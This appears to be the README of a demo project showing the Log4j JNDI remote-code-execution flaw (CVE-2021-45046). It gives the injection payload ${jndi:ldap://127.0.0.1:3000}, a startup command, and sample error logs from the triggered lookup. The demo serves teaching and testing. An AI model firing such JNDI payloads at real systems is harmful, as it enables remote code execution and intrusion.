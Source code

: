 # log4j-vuln-demo
Log4j vulnerability demo
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046

![image](src/docs/log4j-jndi.png)

## CVE: CVE-2021-4428 | CVE-2021-45046
 
- [x] demo apache log4j2 vuln execute RCE via logs
 - [x] ```${jndi:ldap://127.0.0.1:3000}```
 - [x] postman collection for testing
 
## Local Startup

```
  ./gradlew bootRun
```

## Run postman collection local
- [x] log4j-vuln-jndi -> it will fire jndi lookup, 
    ``` try to fetch data from internal resource input```



## vuln example logs
```
2021-12-16 12:03:09,184 http-nio-8080-exec-1 WARN Error looking up JNDI resource [ldap://127.0.0.1:3000]. javax.naming.CommunicationException: 127.0.0.1:3000 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
	at com.sun.jndi.ldap.Connection.<init>(Connection.java:245)
	at com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
	at com.sun.jndi.ldap.LdapClient.getInstance(LdapClient.java:1615)
	at com.sun.jndi.ldap.LdapCtx.connect(LdapCtx.java:2847)
	at com.sun.jndi.ldap.LdapCtx.<init>(LdapCtx.java:348)
	at com.sun.jndi.url.ldap.ldapURLContextFactory.getUsingURLIgnoreRootDN(ldapURLContextFactory.java:60)
	at com.sun.jndi.url.ldap.ldapURLContext.getRootURLContext(ldapURLContext.java:61)
	at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:202)
	at com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
```